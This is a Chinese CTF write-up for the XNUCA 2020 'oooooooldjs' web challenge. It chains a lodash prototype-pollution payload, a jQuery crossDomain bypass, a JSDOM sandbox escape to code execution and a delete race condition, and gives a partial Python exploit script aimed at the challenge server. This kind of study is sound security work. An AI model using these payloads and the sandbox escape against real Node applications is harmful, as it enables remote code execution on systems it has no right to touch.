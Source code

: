 date: 2020-11-13
categories:
- 比赛
tags:
- wp
- web
- ctf
title: XNUCA_2020_oooooooldjs题解
---
# XNUCA_2020_oooooooldjs题解.md



文章首发于[安全客](https://www.anquanke.com/post/id/221388)



题目描述

>`npm audit` may miss something, be careful of the version of `lodash`. There is prototype pollution in `express-validator`, limited but powerful。



npm audit发现lodash有原型链污染漏洞

```
# Run  npm update lodash --depth 2  to resolve 1 vulnerability
                                                              
  Low             Prototype Pollution                         
                                                              
  Package         lodash                                      
                                                              
  Dependency of   express-validator                           
                                                              
  Path            express-validator > lodash                  
                                                              
  More info       https://npmjs.com/advisories/1523      
```



在https://snyk.io/test/npm/express-validator/2.21.0中查看lodash中出现原型链污染的地方，依次下断点

传入json数据:`{"233":123}`发现：

![image1151](https://raw.githubusercontent.com/Explorersss/photo/master/20201031215650.png)



调用了存在原型链污染的set方法，且[233]不为object的键值，在这里可以触发原型链污染

一波测试后得到原型链污染的payload:`{".\"].__proto__[\"crossDomain":{"1":"2"}}`，但是不能控制原型链污染的值



审计题目代码发现，非常有意思的两个地方

1. 显眼的dangerous
   ![image1432](https://raw.githubusercontent.com/Explorersss/photo/master/20201031220029.png)

2. 这里自己实现了数据库的CURD四种方法

学习了一波后发现第一点可以触发RCE

```javascript
const { JSDOM } = require("jsdom");

new JSDOM(`
<body>
  <script>
    const outerRealmFunctionConstructor = Node.constructor;
    const process = new outerRealmFunctionConstructor("return process")();
    const require = process.mainModule.require;

    // Game over!
    const fs = require('fs');
    console.log(fs.readdirSync('.'));
  </script>
</body>
`, { 
  runScripts: "dangerously" 
});
```



在util.js中定义了唯一会用到jsdom的函数



```javascript
const {
	JSDOM
} = require("jsdom")
const {
	window
} = new JSDOM(``, {
	url: originUrl,
	runScripts: "dangerously"
})
// server side `$` XD
const $ = require('jquery')(window)

const requests = async (url, method) => {
	let result = ""
	try {
		result = await $.ajax({
			url: url,
			type: method,
		})

		console.log(result)
	} catch (err) {
		console.log(err)
		result = {
			data: ""
		}
	}

	return result.data
}
```



jquery的ajax有个特性是如果返回的content-type是text/javascript等代表着js脚本，那么便会执行js，结合上面的jsdom从而RCE，但是在低版本的话确实可以这么做，但是在高版本jquery进行了限制，如果是跨域请求便不会执行脚本

调试jquery代码发现：

![image2617](https://raw.githubusercontent.com/Explorersss/photo/master/20201031220811.jpg)



这里会覆盖我们的content-type，继续调试发现设置crossDomain的逻辑

![image2751](https://raw.githubusercontent.com/Explorersss/photo/master/20201031220938.png)

如果s.crossDomain == null就会进入是否跨域的判断

利用前面的原型链污染从而绕过jquery的跨域限制

还剩下一个问题，我们如何传入自己的url

express开着一个中间件限制了我们url,而且也不让更新url类型的数据

```javascript
const middlewares = [
	// should be
	body('*').trim(),
	body('type').if(body('type').exists()).bail().isIn(['url', 'text'])
	.withMessage("type must be `url` or `text`"),
	body('block').if(body('type').exists()).notEmpty()
	.withMessage("no `block` content").bail()
	.if(body('type').isIn(['url'])).isURL({
		require_tld: false
	})
	.custom((value, {
		req
	}) => new URL(value).host === host)
	.withMessage("invalid url!"),
	(req, res, next) => {
		const errors = validationResult(req)
		if (!errors.isEmpty()) {
			return res.status(400).json({
				errors: errors.array()
			})
		}
		next()
	}
]
```



回到我们刚刚说的第二点有趣的地方，这个简单的数据库并不支持事务功能，也就是说删除type和data并不会同时删除是存在一定的时间差的，相关代码如下

```javascript
D(id) {
		let di, dt
		for (const index in this.datas) {
			if (this.datas[index].id === id) {
				dt = this.types[index]
				this.types.splice(index, 1)
				di = index
			}
		}
		if (dt === 'url') {
			requests(this.datas[di].block, "DELETE").finally(()=>{
				this.datas = this.datas.filter((value)=>value.id !== id)
			})
		} else {
			this.datas = this.datas.filter((value)=>value.id !== id)
		}
	}
```



在删除了type后，他进行了一个相当耗时的操作：访问url，之后才删除data，又因为这里是一个链式删除，一个接着一个删除，所有type删除完后它可能才删除一个data

于是有：

```python
import requests
challenge = "http://eci-2ze1whgyeh7v30y5j8yh.cloudeci1.ichunqiu.com:8888"
def insertUrl(url):
    burp0_url = challenge+"/data"
    burp0_headers = {"Pragma": "no-cache", "Cache-Control": "no-cache", "Upgrade-Insecure-Requests": "1", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9", "Accept-Encoding": "gzip, deflate", "Accept-Language": "zh-CN,zh;q=0.9", "Connection": "close", "Content-Type": "application/x-www-form-urlencoded"}
    burp0_data = {"type": "url", "block": url}
    result = {}
    while True:
        try:
            result = requests.post(burp0_url, headers=burp0_headers, data=burp0_data).json()
        except Exception as e:
            continue
        return result

def insertData(data):
    burp0_url = challenge+"/data"
    burp0_headers = {"Pragma": "no-cache", "Cache-Control": "no-cache", "Upgrade-Insecure-Requests": "1", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9", "Accept-Encoding": "gzip, deflate", "Accept-Language": "zh-CN,zh;q=0.9", "Connection": "close", "Content-Type": "application/x-www-form-urlencoded"}
    burp0_data = {"type": "text", "block": data}
    r = requests.post(burp0_url, headers=burp0_headers, data=burp0_data)
    return r.json()

def setLongLine(length=2000):
    endId=""
    url = "http://localhost:8888/data/fake-uuid"
    count = 0
    while count < length:
        count+=1
        data = insertUrl(url)
        url = "http://localhost:8888/data/"+data["data"]["id"]
        endId = data["data"]["id"]
```